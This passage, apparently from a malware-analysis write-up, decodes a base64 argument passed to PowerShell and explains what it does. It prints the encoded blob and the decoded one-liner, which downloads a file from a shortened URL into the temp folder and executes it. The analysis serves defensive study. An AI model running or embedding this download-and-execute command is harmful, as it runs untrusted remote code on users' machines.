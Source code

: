 We are able to see a long string passed to the powershell application as an argument, which looks like a `base64` encoded string. The encoded string shown in the above image is here as follows,

```
aQB3AHIAIABpAHMALgBnAGQALwBqAHcAcgA3AEoARAAgAC0AbwAgACQAZQBuAHYAOgBUAE0AUAAvAC4AYwBtAGQAOwAmACAAJABlAG4AdgA6AFQATQBQAC8ALgBjAG0AZAA=
```

Let's decode this `base64` encoded string with **CyberChef**. The **CyberChef** recipe is as follows:

```
https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)Remove_null_bytes()
```

**CyberChef** has successfully decoded the `base64` encoded string as shown in the following image.

![alt text](assets/image-122.png)

The decoded string shown in the above image is as follows,

```powershell
iwr is.gd/jwr7JD -o $env:TMP/.cmd;& $env:TMP/.cmd
```

Here is a breakdown of the above powershell command,

- **`iwr`**: This stands for `Invoke-WebRequest`, a PowerShell command used to make HTTP requests.
- **`is.gd/jwr7JD`**: This is a shortened URL, most likely pointing to some remote file or script. It's important to expand this URL to see what the original source is.
- **`o $env:TMP/.cmd`**: This option saves the downloaded content to a file named `.cmd` in the system's temporary directory.
- **`& $env:TMP/.cmd`**: The `&` symbol in PowerShell is used to execute a command or script. Here, it runs the `.cmd` file that was just downloaded.
